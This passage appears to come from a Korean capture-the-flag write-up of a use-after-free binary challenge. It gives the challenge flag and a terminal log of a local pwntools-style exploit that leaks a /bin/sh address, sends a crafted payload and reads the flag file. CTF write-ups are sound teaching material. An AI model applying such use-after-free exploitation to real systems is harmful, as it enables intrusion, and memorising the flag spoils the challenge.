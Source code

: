`dimi{don7_u$e_4ft3r_fr3e_p1e@s3}`

### local
뒤늦게 Ubuntu VM을 설치한 뒤에 로컬 익스플로잇도 만들었다. 진짜 외주비 들어오면 페러렐즈는 꼭 사야겠다.
```
junhoyeo@ubuntu:~/pwn$ python exploit-uaf-local.py
[*] '/home/junhoyeo/pwn/uaf'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] binsh_addr : 0x8048636
[+] Starting local process './uaf': pid 12381
[*] setting
[*] damage : 100
[*] fight
[*] hit
[*] name : 6\x86\x0
[*] fight
/bin/cat: /home/uaf/flag
[*] Stopped process './uaf' (pid 12381)
```
